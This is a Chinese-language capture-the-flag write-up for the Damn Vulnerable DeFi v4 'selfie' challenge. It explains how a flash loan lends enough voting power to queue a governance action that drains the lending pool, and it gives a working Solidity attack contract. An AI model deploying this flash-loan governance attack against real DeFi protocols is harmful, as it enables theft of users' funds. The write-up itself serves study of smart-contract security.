 # Damn Vulnerable DeFi v4 - selfie

- https://www.damnvulnerabledefi.xyz/challenges/selfie/

## check condition

抽光 pool 所有資金並轉移至 recovery:

```solidity
assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");
assertEq(
    token.balanceOf(recovery),
    TOKENS_IN_POOL,
    "Not enough tokens in recovery account"
);
```

## break

主因源於可以透過 flashloan 增加自己的投票權。在 Goverance 合約設計上，通常會以持有代幣數量作為票數或是投票權利，提案有一定同意票數才可以執行。

本例中，Goverance 提案需要一半 total supply 以上的同意，才可以提案，可以以 flashloan 借出來繞過檢查：

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

## solution

```solidity
contract Trigger is IERC3156FlashBorrower {
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        // delegate vote
        DamnValuableVotes(token).delegate(address(this));

        // propose an action
        action_id = governance.queueAction(
            address(pool),
            0,
            abi.encodeCall(SelfiePool.emergencyExit, (recovery))
        );

        // repay flashloan
        DamnValuableVotes(token).approve(address(pool), type(uint256).max);
        return CALLBACK_SUCCESS;
    }

    function exec() external {
        governance.executeAction(action_id);
    }
}
```
